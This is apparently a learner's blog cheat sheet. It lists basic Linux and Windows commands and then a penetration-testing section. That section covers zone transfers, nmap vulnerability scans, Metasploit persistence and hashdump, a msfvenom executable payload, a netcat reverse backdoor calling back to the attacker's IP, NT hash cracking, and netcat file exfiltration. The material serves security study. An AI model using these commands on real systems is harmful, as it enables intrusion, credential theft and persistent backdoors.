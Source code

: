 ```yaml
---
layout: post
title: "Basics Cheat Sheet"
date: 2017-09-05
---
```

<p>
Here is a formatted list of basic commands. I used these as I was learning how to get my way around and added to the list as I learned new things. Writing them down helped me remember the syntax.
</p>
<h2> Get Help … and other info</h2>
<ul>
<strong>
	<li><code>C:\> <command> /? </code></li>
	<li><code>root@kl~# <command> -h </code></li>
	<li><code>root@kl~# <command> --help </code></li>
	<li><code>root@kl~# man <command> </code></li>
	<li><code>root@kl~# apropos </code></li>
	<li><code>root@kl~# history </code></li>
	<li><code>root@kl~# hostname</code></li>
	<li><code>root@kl~# sudo </code></li>
	<li><code>root@kl~# whoami </code></li>
</strong>
		<ul>
		<li>(print current user id and name)</li>	
		</ul>
<strong>
	<li><code>root@kl~# date </code></li> 
	<li><code>C:\>  chdir </code></li>
</strong>
		<ul>
		<li>(displays location)</li>
		</ul>
<strong>
	<li><code>root@kl~# pwd </code></li>
</strong>
		<ul>
		<li>(displays location)</li>
		</ul>
</ul>

<h6>Processes and Things</h6>
<ul>
<strong>
	<li><code>root@kl~# jobs </code></li>
</strong>
		<ul>
		<li>(list cronjobs)<li>
		</ul>
<strong>
	<li><code>root@kl~# kill </code></li>
</strong>
		<ul>
		<li>(stop processes)<li>
		</ul>
<strong>
	<li><code>root@kl~# pkill </code></li>
</strong>
		<ul>
		<li>(stop processes)<li>
		</ul>
<strong>	
	<li><code> root@kl~# ps –aef </code></li>
</strong>
		<ul>
		(list processes status)
		</ul>
<strong>
	<li><code>C:\ tasklist </code></li>
<strong>
</ul>

<h6>Files</h6>
root@kl~# cp <src> <dst> (copy)
C:\> copy <src> <dst>
root@kl~# clear
C:\> cls
C:\> dir
root@kl~# echo <message>
(print to screen)
root@kl~# find –iname <file>
C:\> findstr /i /s <string> *.txt
(like grep for Windows)
root@kl~# file
(determine file type)
C:\> dir \ <file> /b /s
root@kl~# grep
(search files for matching text)
root@kl~# gzip
(compress or decompress files)
root@kl~# less 
(display output one screen at a time)
root@kl~# locate
root@kl~# ls
root@kl~# mkdir 
(new directory)
root@kl~# mv <src><dst> (move/rename a file)
C:\>  move <src> <dst>
root@kl~# rm (remove files)
C:\> ren (renames file)
root@kl~# umask 
(users file creation mask)
root@kl~# uniq 
(uniquify files)
root@kl~# vi/vim 
(the best text editor)
root@kl~# wc 
(print byte, word and line counts)
root@kl~# whereis 
(search $path, man pages and source files for program)
Users
root@kl~# chgrp 
(change group ownership)	
root@kl~# chmod 
(change access permissions) 
root@kl~# chown 
(change file owner and group)
root@kl~# groupadd 
(add a user to a security group)
root@kl~# passwd 
(modify user password)
root@kl~# useradd 
(create new users)
root@kl~# usermod 
(modify user account)
root@kl~# users 
(list logged in users)
Networks
root@kl~# curl (grab webpages)
root@kl~# dig (DNS lookup)
root@kl~# ifconfig
root@kl~# netstat -ano/-plant/-uplant
(networking connections)
root@kl~# nslookup
 (query name servers)
root@kl~# ping
root@kl~# ssh
root@kl~# traceroute
root@kl~# wget 
(get web pages or files)
 
 
Reconnaissance
Discover target’s IP/FQDN domain
nslookup <domain>
nslookup <ip>
Find nameserver for known domain
	root@kl~# dig <domain>
perform a zone transfer to list hosts w/in domain
	root@kl~# dig axfr @<name server> <domain>
determine route to a host
	root@kl~# traceroute <ip>
	C:\> tracert <ip
scan for services and operating system
	root@kl~# nmap –sV –O <ip> 
scan for vulns
	root@kl~# nmap --script=vulns <ip>
Gain and Maintain
establish ssh connection
	root@kl~# ssh <user>@<ip>
remote desktop (rdesktop is port 3389 and vncviewer is 5900)
	rdesktop -u <username> -p <password> <ip>
	vncviewer <ip>
favorites from the msf console
	search <keyword>
	info <module> 
	use <module>
	show options (shows you what to fill in)
	show payloads (shows payloads associated with the exploit you loaded)
	background (use to background sessions)
	pwd vs lpwd & cd vs lcd
	sessions –i <#>  (to interact with sessions)
	run persistence –h 
	run persistence –A –r <your ip> -p <port> -i 10 (call back every 10 seconds if connection is lost)
	hashdump
add a route in msf
	route add <victim subnet> <subnet mask> <session#>
	route print
make a msfvenom payload for windows executable
	root@kl~# msfvenom –p <payload> lhost=<ip> lport=<port> -f exe –i 2 > <file>.exe
	root@kl~# msfvenom –l encoders (for list of encoders)
	set up a listener in metasploit
		use exploit/multi/handler
		set payload
		set ExitOnSession false
		exploit –j (run as a job)
netcat backdoor
	root@kl~# nc –l –p <port> (on launch platform)
	C:\> start nc <launch ip> <port> -e cmd.exe
Escalate and Propagate
get passwords using meterpreter or shell (/etc/shadow or hashdump)
use john to crack NT hashes – remember to add special words you find to the password list in john
	root@kl~# ./john <file> --format=nt
transfer files with netcat
	root@kl~#  nc –l –p <port> > <file> (on your platform to listen for file)
	C:\> nc.exe <your ip> <port>  <  <file to transfer>
transfer files with python
	python –m SimpleHTTPServer <port>
